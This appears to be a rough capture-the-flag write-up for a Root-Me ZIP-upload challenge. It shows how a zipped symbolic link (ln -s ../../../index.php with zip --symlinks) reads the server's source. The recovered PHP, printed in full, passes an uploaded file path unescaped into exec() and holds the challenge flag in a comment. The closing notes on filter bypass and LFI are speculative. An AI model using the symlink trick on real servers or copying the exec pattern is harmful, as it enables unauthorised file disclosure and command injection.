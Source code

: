 # File upload - ZIP(To infilterate the index.php, ln -s)

Your goal is to read index.php file.

then make the file named index.php

```
<?php
phpinfo()
?>
```

then zip it

└─$ zip 1.zip index.php adding: index.php (stored 0%)

and I upload it to server

but not works intead showing error message -> 403 Forbidden nginx with the url http://challenge01.root-me.org/web-serveur/ch51/tmp/upload/63147da0463997.95864597/ -> then I need to go back to **ch51** directory, **for the index.php must exist in that directory**: ../../../ -> so make symbolic link to index.php which is 3 directories far from uploaded directory:

`ln -s ../../../index.php index.txt`

compress with zip then:

`zip --symlinks index.zip index.txt`

***

```
<?php
if(isset($_FILES['zipfile'])){
    if($_FILES['zipfile']['type']==="application/zip" || $_FILES['zipfile']['type']==="application/x-zip-compressed" || $_FILES['zipfile']['type']==="application/octet-stream"){
        $uploaddir = 'tmp/upload/'.uniqid("", true).'/';
        mkdir($uploaddir, 0750, true);
        $uploadfile = $uploaddir . md5(basename($_FILES['zipfile']['name'])).'.zip';
        if (move_uploaded_file($_FILES['zipfile']['tmp_name'], $uploadfile)) {
            $message = "<p>File uploaded</p> ";
        }
        else{
            $message = "<p>Error!</p>";
        }
	
        $zip = new ZipArchive;
        if ($zip->open($uploadfile)) {
            // Don't know if this is safe, but it works, someone told me the flag is N3v3r_7rU5T_u5Er_1npU7 , did not understand what it means
            exec("/usr/bin/timeout -k2 3 /usr/bin/unzip '$uploadfile' -d '$uploaddir'", $output, $ret);
            $message = "<p>File unzipped <a href='".$uploaddir."'>here</a>.</p>";
	    $zip->close();
        }
	else{
		$message = "<p> Decompression Error </p>";
	}
    }
    else{
		
	$message = "<p> Error bad file type ! <p>";
    }

}
?>

<html>
    <body>
        <h1>ZIP upload</h1>
        <?php print $message; ?>
        <form enctype="multipart/form-data" method="post" action>
            <input name="zipfile" type="file">
            <button type="submit">Submit</button>
        </form>
    </body>
</html>
```

***

**then probably use 'die' for passing 'assert' based filter. and use base64 filter too, to lfi or infilterate.**

you can use this for config.php too. but the problem is, should the compressed unzip itself??

if no need to zip, then probably just upload: ln -s ../../../index.php index.txt
